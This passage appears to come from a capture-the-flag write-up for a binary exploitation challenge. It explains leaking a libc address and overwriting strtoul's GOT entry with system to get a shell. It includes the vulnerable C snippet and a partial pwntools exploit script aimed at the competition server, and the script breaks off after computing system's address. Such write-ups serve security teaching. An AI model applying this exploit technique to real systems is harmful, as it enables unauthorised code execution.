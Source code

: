Since we can overwrite GOT entries, that seems like the obvious choice for our arbitrary write. I did run onegadget on the provided libc and found some potentially promising candidates; however, I noticed that the function strtoul is called when processing the user's selection of their next move, on the provided user input. This means that if I use the libc leak from earlier to set the GOT entry of strtoul to system, I can call system("/bin/sh") and get a shell.
```
puts(current_player.name);
            puts("choose your move:\n" \
            "1 - hit \n" \
            "2 - protect\n" \
            "3 - run\n");

            memset(buffer, 0x00, BUFFER_SIZE);

            puts("Your Choice:");

            if(fgets (buffer, BUFFER_SIZE, stdin) != NULL) {
                uint32_t move = strtoul(buffer, NULL, 10);
```
The final payload is below; the offsets to achieve the overwrite of curr and get the correct values to hit the GOT were finessed with guesswork and GDB/GEF use during the competition, but you could also work out the exact numbers numerically.
```
from pwn import * 

#target = process('./app.out', env={"LD_PRELOAD":"./libc.so.6"})

#pid = gdb.attach(target, "\nb *log_error+100\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\nc\n set disassembly-flavor intel\ncontinue")

target = remote('epic_game.ichsa.ctf.today', 8007)

libc = ELF('libc.so.6')

#gadgets:
curr = p64(0x004044c8)
write_to_log = p64(0x004044c0)
error_log = p64(0x004040c0)


print(target.recvuntil(b'Your Choice:'))

#It will just pick my player type at random.
#I am already starting to send it information that will fill error_log to reduce my interactions with the server.

target.sendline(b'a' * 0x3e)

print(target.recvuntil(b'Choose your character name (limit to 12 chars)'))

target.sendline(b'a' * 0x3e)

print(target.recvuntil(b'number is '))
result = target.recvuntil(b'You')

leak = result.replace(b'\nYou', b'')
print('leak is', hex(int(leak)))

rand_libc = int(leak)

libc_base = rand_libc - libc.symbols['rand']

system_libc = libc_base + libc.symbols['system']

```